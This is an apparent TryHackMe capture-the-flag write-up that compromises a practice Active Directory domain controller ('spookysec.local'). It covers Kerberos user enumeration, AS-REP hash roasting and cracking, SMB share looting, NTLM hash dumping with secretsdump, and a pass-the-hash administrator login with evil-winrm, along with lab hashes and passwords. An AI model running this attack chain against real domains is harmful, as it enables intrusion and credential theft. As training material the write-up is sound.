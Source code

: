 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt -Pn 10.10.186.109
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/AttacktiveDirectory/assets/1.png">

A lot of open ports and the target appears to be a domain controller. This will most likely give us a lot of enumeration abilities.
<br>
# Enumeration
We spot the domain controller: spookysec.local
Let's add it to the /etc/hosts file and run kerbrute to enumerate usernames.

> Kerbrute is a tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication. https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc spookysec.local -d spookysec.local ~/tmp/users.txt
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/AttacktiveDirectory/assets/2.png">

We notice backup, administrator and svc-admin as interesting accounts.
<br>
# Initial foothold
We'll try to get hashes with GetNPUsers.py from Impacket.
```
GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.186.109
```
```
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d31db66d309676ff0e7c5ecd880e698c$ea9ff1c3cb9619410aad19503c0c4381008eff11d3ea6c09ab916b44b1eb43814c2f09eb0844c934391e8e033c565dff359fa2e0530aadffcbb4f433fe87e1f20be9fce5d7ea01b2d7ca7390d38214cb2e0d0ab56b6e0a5f7a5c73d45aeaf475b00ca34245478c9deec60050ace07d31b1899c134e755ed46dbc7201de4de174bfbd1fdaf6d8a67789f10e4af8a88652f07a94d180f1ddac56e8e419e437b7e18552bd59fec397ec41ff4376ff97b18ead4d54b9c32398b8a5a6595cb949035a41fbbb8fe68da5ca9c6d937af1fc06e63fef1d3372a57a4c9289244a79cfe10bd76af6191d11ba87fd3dc145117ff8220aaa
```

We got a Keberos 5. AS-REP hash. Let's try to crack it with hashcat:
```
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

We got a pass:
```
spookysec.local/svc-admin:management2005
```

Let's list the shares with this account:
```
smbclient -L //10.10.186.109/ -U spookysec.local/svc-admin
```                                                  
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 


Let's connect to the backup share and download all files:
```
smbclient //10.10.186.109/backup/ -U spookysec.local/svc-admin 
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3601776 blocks available
smb: \> mget *
```

We got a base64 encoded string. After decoding it says:
```
backup@spookysec.local:backup2517860
```

Let's use this account to dump NTLM hashes with secretsdump.
```
secretsdump.py -dc-ip 10.10.186.109 spookysec.local/backup:backup2517860@10.10.186.109
```

We got a administrator hash:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

Let's use it to connect with evil-winrm:
```
evil-winrm  -i 10.10.186.109 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/AttacktiveDirectory/assets/3.png">










